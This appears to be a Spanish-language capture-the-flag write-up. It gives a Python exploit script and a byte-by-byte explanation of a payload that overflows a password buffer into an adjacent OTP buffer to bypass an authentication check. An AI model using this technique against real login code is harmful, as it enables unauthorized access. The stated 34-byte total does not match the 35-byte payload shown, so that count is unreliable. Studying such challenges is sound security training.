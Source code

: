 ```python
import interact
import struct

def p64(n):
    return struct.pack('Q', n)

def u64(s):
    return struct.unpack('Q', s)[0]

p = interact.Process()
p.readuntil('Enter password: ')

payload = b'A\x00' + b'A'*30 + b'A\x00' + b'\n'
p.sendline(payload)
p.interactive()
```

### Explicación del Payload

El payload `b'A\x00' + b'A'*30 + b'A\x00' + b'\n'` (34 bytes) manipula la memoria:

1. **`b'A\x00'` (Bytes 0-1)**:
   - Escribe `'A'` (0x41) y un byte nulo (`\0`) en el inicio de `user_password`.
   - El byte nulo termina la cadena, haciendo que `user_password` sea `"A"`.
   - `strlen(user_password)` devuelve 1, pasando el chequeo.

2. **`b'A'*30` (Bytes 2-31)**:
   - Relleno de 30 bytes con `'A'` para llenar `user_password` (32 bytes en total).
   - Esto posiciona el siguiente dato en el inicio de `otp_password`.

3. **`b'A\x00'` (Bytes 32-33)**:
   - Sobrescribe el inicio de `otp_password` con `'A'` y un byte nulo.
   - Hace que `otp_password` sea `"A"`.

4. **`b'\n'` (Byte 34)**:
   - Un salto de línea asegura que `fgets` termine de leer.

Total: 34 bytes, dentro del límite de 50 bytes de `fgets`.

---

## Desglose del Payload en Memoria

| Índice (Byte #) | Búfer          | Valor (Byte) | Valor (Hex) | Propósito / Interpretación            |
|-----------------|----------------|--------------|-------------|---------------------------------------|
| **0**           | `user_password`| `'A'`        | `0x41`      | Inicio de `user_password`.            |
| **1**           | `user_password`| `'\x00'`     | `0x00`      | Termina `user_password` como `"A"`.   |
| **2 a 31**      | `user_password`| `'A'` (x30)  | `0x41`      | Relleno para llegar a `otp_password`. |
| **32**          | `otp_password` | `'A'`        | `0x41`      | Inicio de `otp_password`.             |
| **33**          | `otp_password` | `'\x00'`     | `0x00`      | Termina `otp_password` como `"A"`.    |
| **34**          | `otp_password` | `'\n'`       | `0x0A`      | Fin de entrada para `fgets`.          |
